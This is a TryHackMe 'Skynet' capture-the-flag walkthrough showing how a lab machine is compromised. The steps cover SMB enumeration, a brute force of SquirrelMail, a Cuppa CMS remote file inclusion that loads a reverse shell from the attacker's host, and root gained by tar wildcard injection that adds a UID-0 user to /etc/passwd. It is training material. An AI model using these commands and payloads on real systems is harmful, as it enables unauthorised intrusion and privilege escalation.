

# TryHackMe Skynet Room WalkTrought


## Starting with enumeration
As everyday, I started enumerating with nmap
```bash
nmap -sV -vv -p- 10.10.209.177
```
Here are the results
```
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        syn-ack Dovecot pop3d
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack Dovecot imapd
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There are some open ports, this will be fun

### Enumeration with gobuster : http

So, we've seen an http server running on port 80 so let's check this out  
  
Nothing seems interesting here :( 
***Let's enumerate***  
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.209.177  -x php,html,txt 
```
Here are the results
```
/index.html           (Status: 200) [Size: 523]  
/.html                (Status: 403) [Size: 278]  
/.php                 (Status: 403) [Size: 278]  
/admin                (Status: 301) [Size: 314]  
/css                  (Status: 301) [Size: 312]   
/js                   (Status: 301) [Size: 311]   
/config               (Status: 301) [Size: 315]   
/ai                   (Status: 301) [Size: 311]   
/squirrelmail         (Status: 301) [Size: 321]   
/.php                 (Status: 403) [Size: 278]  
/.html                (Status: 403) [Size: 278]  
```
Squirrelmail ? What is that ? Let's check !  
  
It's seems that we'll need some credentials...  

### Enumeration with Enum4Linux : SMB
Back to our nmap scan, we can see that a SMB in running on ports 139 and 445  
Let's enum !
```bash
enum4linux 10.10.209.177
```
Here are the results that we'll need    
We've found a new user ! Seems to be a great starting point, right ?  
```
user:[milesdyson] rid:[0x3e8]
```
We've also found four shares !  Here thay are :  
```
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
```
One of them is accessible for everyone !
```
//10.10.209.177/print$	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.209.177/anonymous	Mapping: OK Listing: OK Writing: N/A
//10.10.209.177/milesdyson	Mapping: DENIED Listing: N/A Writing: N/A
```

Let's log in it
```bash
smbclient //10.10.209.177/anonymous	
```

There is some stuff. Let's get it to our own machine.
```bash
mget *
cd logs
mget *
```
anonymous share fully enumerated, we can exit ! 
So, what did we find ?  

  
And ?  

  
This looks like a password list, right ?  

## Bruteforcing with BurpSuite

It's seems that we have a username and a list of passwords now.    
Maybe we can try to bruteforce squirrelmailbox.  

So, let's catch a request  
(You can check [the BurpSuite rooms](https://tryhackme.com/room/burpsuitebasics) to understand what i've done here)  


We can now 
- send it to the intruder (CTRL+I)  
- clear variables
- wrap password with variables
- and change the username value to milesdyson
This should looks like that :  


Go to the payload section and load log1.txt


***Press start attack***

Boom ! password found ! 

We have now credentials of milesdyson mail.   

## Enumerating squirrelwebmail

We can now login to his webmail  
This looks like that :  


And in the first mail, we clearly see the SMB password



## So, back to the SMB

We can try to log in the milesdyson share with our new credentials

```bash
smbclient -u milesdyson //10.10.209.177/milesdyson
```
It works !  
```bash
ls
cd notes
ls
```
Wow !  there are a lot of files in here !


they all seem useless except for one : important.txt  
```bash
mget important.txt
```

  

Ok, so there is the hidden directory

## Http hidden directory

Let's check this ```http://10.10.209.177/45kra24zxs28v3yd```

  
Nothings seems to be interesting here...

## Enumerate the hidden directory
We're back to gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.209.177/45kra24zxs28v3yd  -x php,html,txt
```
Here are the results
```
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 418]
/administrator        (Status: 301) [Size: 337] [--> http://10.10.209.177/45kra24zxs28v3yd/administrator/]

```
MMmmmm.... Interesting, let's check what is this administrator directory.   
I first check at the source code and saw that there was an hidden redirect to a 'forgot passsword ?' page but this didn't seemed to work  

## Exploit Cuppa CMS
Then, I remembered that the CMS used in the applications has some vulns...
And, when i searched for, i've seen that :  

  


So I could use it to spawn a reverse shell : 
- I curl the pentest monkey php reverse shell and edit it with my tun0 IP and the port 1234
- I started a python http webserver like that : 
```bash
python -m http-server 8000
```
- I used the RFI vulnerability to spawn the reverse shell at :
```
http://10.10.209.177/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.14.34:8000/reverse_shell.php
```
OK! Reverse shell spawned !

## User Flag

As always, I spawned an interactive shell with
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';  
```

  

First flag here !  

## Privileges escalation

I firstly check some SUID and sudo -l but anything that seemed interesting.
So, I check for the crons and Boom !  
```bash
cat /etc/crontab
```
I saw that there were a cron using backup.sh : 
```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

So, i checked the backups/ directory


We can read backup.tgz but in fact, the file that we are interested in is backup.sh

  

***Here, we can read that tar is run with a *  
And the owner of this file is root...***

Here are the steps :
- Create a malicious payload that will be run by root with script.sh as name
- Use two file in /var/www/html with '--checkpoint=1' and '--checkpoint-action=exec=sh script.sh'

I choose to add a new user account with UID 0 directly by editing /etc/passwd  
I created a new password hash in my terminal with  
```bash
mkpasswd -m sha-512 password
```
And created my payload
```bash
echo 'newroot:$6$lZ79nakIyVBsmtlz$G.zJM6HWmLZJXizJlV.s7sAiTdPMzOwj/9x5xuQ/Bhd3scpp03GPE2R4BPHhG/dAcMu6SSEBtKR.myetPJ8ph1:0:0:root:/root:/bin/bash' >> /etc/passwd
```
I put it in a local file named script.sh and I wget it on the remote machine with the same python webserver as before
```bash
cd /var/www/html/
wget http://10.8.14.34:8000/script.sh
```

Then, I created the TAR flag files
```bash
echo something >  '--checkpoint=1'
echo something > '--checkpoint-action=exec=sh script.sh'
```

I waited till the new user appears in
```bash
cat /etc/passwd
```

Then I could 
```bash
su newroot
id
cat /root/root.txt
```


***I really enjoyed this room, thanks for that***
